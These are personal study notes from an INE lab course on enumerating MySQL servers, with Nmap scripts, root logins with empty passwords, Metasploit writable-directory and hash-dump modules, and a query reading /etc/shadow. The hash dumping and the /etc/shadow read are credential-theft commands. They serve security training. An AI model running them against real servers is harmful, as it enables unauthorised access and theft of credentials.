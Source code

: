 ____________________________________________________________________
**Important Note: This is where I had to discontinue my notes on the Enumeration course by Josh Mason, the notes here thus stand incomplete, since my access to the course content was revoked prior to being able to complete the course, when the new course by Alexis Ahmed was launched.**

**I am not particularly fond of INE's treatment of their users with regards to the resolution of issues like these, pertinent to content scheduling. I would have liked if they could do a better job at either releasing the content on its promised time, instead of delaying it for weeks and digging into the subscription period that I paid for; or providing more time to access the "Soon Retiring" courses so that the people who have put in hours on those can complete them instead of being forced to break the flow and start fresh with the revised course.**
____________________________________________________________________

- MySQL is one of the most commonly used open source SQL databases. It is very common to find on an enterprise network, often misconfigured and vulnerable.
- It usually runs on Ubuntu or some version of Linux, or Unix.
- It allows many users to store information in the database, which can be pulled and used in many different operations.
- MySQL generally uses tcp/3306 as its default port.

Using Nmap scripts to find users with null logins enabled on the MySQL server
	- The `mysql-empty-password` script checks for MySQL servers with an empty password for `root` or `anonymous`.
	- `nmap demo.ine.local -sV -p 3306 --script=mysql-empty-password`

Using Nmap scripts to enumerate information about the MySQL server
	- The `mysql-info` script connects to a MySQL server and prints information such as the protocol and version numbers, thread ID, status, capabilities, and the password salt.
	- `nmap demo.ine.local -sV -p 3306 --script=mysql-info`
	- An `InteractiveClient` capability, when found in this scans' results can be further used to interact with the system directly using the MySQL server.

Executing MySQL commands on the target server
	- `mysql -h 192.125.250.3 -u root`
	- root generally tends to be the default admin user for the database, since the server is running on Linux.
	- The `show databases;` command can be used to list databases.
	- The `use database_name;` command can be used to change the database to the specified one.
	- `select * from authors;` will show all the information present in the authors table.
	- As expected, general SQL syntax can be used to query databases in MySQL.
	- The `help` command can be used for further information.

Writable target host directories enumeration using Metasploit Framework
	- `use /auxiliary/scanner/mysql/mysql_writable_dirs`
	- `show options`
	- `set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt`
	- `set rhosts demo.ine.local`
	- We can use the `setg` command instead to set option values globally for a specific session.
	- We can use the `advanced` command to list advanced options for a specific module.
	- `advanced`
	- `set verbose false`
	- `set password ""`
	- `run`

Credential hash enumeration using Metasploit Framework
	- `msfconsole`
	- `use auxiliary/scanner/mysql/mysql_hashdump`
	- `options`
	- `set RHOSTS demo.ine.local`
	- `set username root`
	- `set password ""`
	- `exploit`

Using the root user with a null login on MySQL to retrieve credentials hashes from `/etc/shadow`
	- `mysql -h demo.ine.local -u root`
	- `select load_file("/etc/shadow");`